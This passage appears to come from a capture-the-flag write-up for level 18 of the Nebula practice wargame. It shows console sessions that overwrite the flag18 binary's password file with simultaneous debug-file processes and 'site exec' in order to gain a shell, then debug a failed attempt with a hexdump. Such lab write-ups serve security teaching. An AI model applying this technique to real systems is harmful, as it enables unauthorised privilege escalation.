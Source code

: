 So we can do the following,
* run `./flag18 -d password` (process 1) to overwrite password
* simultaneously run `./flag18 -d password -d test` (process 2) to truncate `\n` debug message written by first process
* return to process 1 and use `site exec newpassword` to write a new password
* run `./flag18` (process 3) to login with new password and execute a shell

Let's run the exploit manually,
```console
[PROCESS 1]
level18@nebula:/home/flag18$ ./flag18 -d password
```
```console
[PROCESS 2]
level18@nebula:/home/flag18$ ./flag18 -d password -d test
```
```console
[PROCESS 1]
site exec newpassword
```
```console
[PROCESS 3]
level18@nebula:/home/flag18$ ./flag18
login newpassword
shell
```
Didn't work, why though? Let's run the third process again, this time with debugging.
```console
level18@nebula:/home/flag18$ ./flag18 -d test -vvv
login newpassword
shell
```
Very weird, the login failed.
```console
level18@nebula:/home/flag18$ cat test
Starting up. Verbose level = 3
got [login newpassword] as input
attempting to login
got [shell] as input
attempting to start shell
Permission denied
```
Let's execute the exploit again, this time with a password file we can read.
```console
[PROCESS 1]
level18@nebula:/home/flag18$ ./flag18 -d debugpassword
```
```console
[PROCESS 2]
level18@nebula:/home/flag18$ ./flag18 -d debugpassword -d test
```
```console
[PROCESS 1]
site exec newpassword
```
Looks fine,
```console
level18@nebula:/home/flag18$ cat debugpassword
newpassword
```
But we can look closer,
```console
level18@nebula:/home/flag18$ hexdump -C debugpassword
00000000  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000010  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 6e  |...............n|
00000020  65 77 70 61 73 73 77 6f  72 64                    |ewpassword|
0000002a
```